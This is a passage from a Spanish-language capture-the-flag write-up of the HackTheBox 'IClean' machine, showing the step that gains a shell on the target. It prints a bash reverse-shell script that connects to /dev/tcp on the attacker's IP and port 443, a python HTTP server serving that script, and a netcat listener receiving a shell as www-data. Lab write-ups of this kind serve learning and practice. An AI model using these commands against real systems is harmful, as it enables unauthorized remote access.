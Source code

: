 Para poder generar una reverse shell cree un archivo con el sig. contenido:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.100/443 0>&1
```

Posteriormente coloque un servidor temporal y llame mi archivo para que también se ejecutará y me regresara la shell


![](/assets/images/htb-writeup-IClean/burp4.png)

```bash
┌──(root㉿kali)-[/tmp]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [01/Jul/2024 17:25:54] "GET /r HTTP/1.1" 200 -
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.16.100] from capiclean.htb [10.10.11.12] 54024
bash: cannot set terminal process group (1237): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ whoami
whoami
www-data
www-data@iclean:/opt/app$ 
```

Para trabajar mas cómodo realice un tratamiento de la TTY
